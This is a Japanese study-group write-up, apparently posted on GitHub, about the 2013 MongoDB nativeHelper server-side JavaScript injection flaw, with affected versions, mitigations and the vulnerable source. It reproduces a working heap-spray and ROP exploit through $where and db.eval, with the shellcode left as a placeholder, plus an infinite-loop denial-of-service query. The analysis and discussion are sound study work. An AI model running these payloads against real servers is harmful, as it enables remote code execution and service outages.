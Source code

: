 nativeHelper()に伴う脆弱性について
=================

#はじめに

2013/03/26 にマイナビニュースに掲載された、MongoDBの脆弱性について検証します。

- [MongoDBに脆弱性](http://news.mynavi.jp/news/2013/03/26/158/index.html)

## 影響を受けるバージョン

- MongoDB 2.2以前のバージョン（ただし、ビルド時にJavaScriptエンジンをV8に設定しているものは除く）

## 対策

- その1: MongoDB 2.4へのバージョンアップする  
- その2: noscriptingオプションをつけて起動する


## 情報源

一次情報 mongodb – SSJI to RCE  
http://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/  

日本語情報 MongoDBに脆弱性  
http://news.mynavi.jp/news/2013/03/26/158/index.html  


## exploiteコード

my_collectionを存在するcollectionへ変更して、下記のコードを実行
```js
db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
```

evalでも同様に落ちる
```
db.eval(function() {shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);})
```

## 何が問題？

native_helper()内のNativeFunction funcがxというJavaScriptのオブジェクトをチェック無しでcallすることが問題（らしい）  
  
src/mongo/scripting/engine_spidermonkey.cpp
```js
JSBool native_helper( JSContext *cx , JSObject *obj , uintN argc, jsval *argv , jsval *rval ) {
        try {
            Convertor c(cx);
            NativeFunction func = reinterpret_cast(
                    static_cast( c.getNumber( obj , "x" ) ) );
            void* data = reinterpret_cast<void*>(
                    static_cast( c.getNumber( obj , "y" ) ) );
            verify( func );

            BSONObj a;
            if ( argc > 0 ) {
                BSONObjBuilder args;
                for ( uintN i = 0; i < argc; ++i ) {
                    c.append( args , args.numStr( i ) , argv[i] );
                }
                a = args.obj();
            }

            BSONObj out;
            try {
                out = func( a, data );
            }
            catch ( std::exception& e ) {
```

run、run_とmongo shellでソースを見ると、{x : "xxxxx"}というハッシュになっていることがわかる
```js
> run
function () {
    return nativeHelper.apply(run_, arguments);
}

>run_
{ "x" : 4295168976 }

```

runはmongo shellから、shellのコマンドを実行するための関数。  
なのでチェック無しで実行しているのだろうか（勉強会での議論に続く）



## 今回とは別のダメな例

```js
db.test.find({'$where':'while(1){};return true;'}) 
```

## 2.4から$whereのセキュリティが向上した

2.4 からグローバルオブジェクトにアクセスできない制限が入った

## 現実的なリスクを考える

どうなんでしょうか。ユーザーのインプットをそのままJavaScriptとして評価するのが条件ならば、そのようなシーンはなかなか無いので、現実的ではない？  
（活発な意見、求む）

